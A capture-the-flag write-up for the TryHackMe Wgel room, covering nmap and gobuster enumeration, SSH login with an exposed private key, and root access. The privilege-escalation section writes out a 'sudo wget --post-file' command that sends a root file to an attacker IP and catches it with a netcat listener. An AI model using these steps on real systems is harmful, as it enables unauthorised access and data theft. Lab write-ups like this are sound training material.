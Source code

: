 # [Wgel CTF THM Room](https://tryhackme.com/room/wgelctf)
## Scanning
### Nmap
```
nmap -sC -sV -oN nmapInitial [ip]
```

```python
Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-24 16:44 BST
Nmap scan report for ip-10-10-207-223.eu-west-1.compute.internal (target-ip)
Host is up (0.0029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:6E:6D:97:AF:3F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds
```

### Gobuster
```
gobuster dir -u http://target-ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/24 16:45:59 Starting gobuster
===============================================================
/sitemap (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/24 16:46:21 Finished
===============================================================
```

## Enumeration
- When going to the IP address at port 80, we see the default Apache web page for a new web server installation. [Gobuster](https://github.com/OJ/gobuster) didn't yield any immediately helpful results, so let's do some basic enumeration. When viewing the page source code, I found the following HTML comment:
```html
 <!-- Jessie don't forget to udate the webiste -->
```

- This gives us a potential username to try and log in to the machine via SSH. Let's look around more and see if there is any other juicy data to find.
- When we visit the `/sitemap` page found via [Gobuster](https://github.com/OJ/gobuster), we are greeted with the following:

![UNAPP Page](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/6a6ffdfa-b99b-4670-ad27-8af02fea54d8)


- UNAPP looks to be a basic web app template that users can build from. That would make sense as to why it is located on this new web server. 
- We can run another [Gobuster](https://github.com/OJ/gobuster) scan to see if we can enumerate more directories under `/sitemap`. To do this, we can use the following syntax:
```
gobuster dir -u http://[ip]/sitemap -w /usr/share/wordlists/dirb/common.txt
```

- From this scan, we get the following output:
```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip/sitemap
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/24 18:18:43 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
===============================================================
2023/10/24 18:18:44 Finished
===============================================================
```

- We can see that there are a few directories that were discovered, but the most interesting one seems to be the `/.ssh` one. When I see this on a Linux machine, I typically find hidden id_rsa keys that can be leveraged to log into a device via SSH. Doing some enumeration, I found an id_rsa key under that directory. 

## System Hacking
- Now that we have found an `id_rsa` key, we can try and pair it with the `Jessie` username to connect to the machine via SSH. To do this, we must first copy the contents of the `id_rsa` file on the web server into an `id_rsa` file on our host machine. Then we have to use the following syntax to change permissions for the `id_rsa` file before we can us it:
```
chmod 600 id_rsa
```

- Now we can use the following syntax to SSH into the machine:
```
ssh jess@[ip] -i id_rsa
```

- From here, we can navigate to the `~/Documents` directory and cat out the user flag. 

## Privilege Escalation
- One of the first things I do when I get user access to a machine is to check what permissions the user I have compromised can run with root privileges. In this case, I get the following output when I use `sudo -l`:
```
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

- Since we can run `wget` with sudo permissions, I looked it up on [GTFOBins](https://gtfobins.github.io/), but it didn't pan out successfully. 
- However, we can use `wget` to post information by using the `--post-file` option. Since it has root permissions, it would stand to reason that using `sudo wget` would allow us to post files from the root directory. To do this, we can use the following syntax:
```
sudo wget --post-file=/root/root_flag.txt [attacker ip] 8888
```

- Now all we have to do is run that command once we set up a [Netcat](https://nmap.org/ncat/) listener on our attacking machine and we should be good to go:
```
nc -lnvp 8888
```

- Running the `wget` command specified above should give use the following, with the last line being the root flag:
```
Connection from target-ip 43424 received!
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.0.86:8888
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

{flag}
```

## Rabbit Holes
### Username Enumeration Exploit
- At one point, I was struggling to find more directories under the `/sitemap` one. I had gone through all of the .js file and .scss files and couldn't find anything of value. So I decided to look up exploits related to the version of SSH that was running, and that led me to [this page](https://www.exploit-db.com/exploits/40136) that basically outline username enumeration via a Python script. This worked, but it didn't yield useful results since I already had the correct username that I needed to log into the target machine.


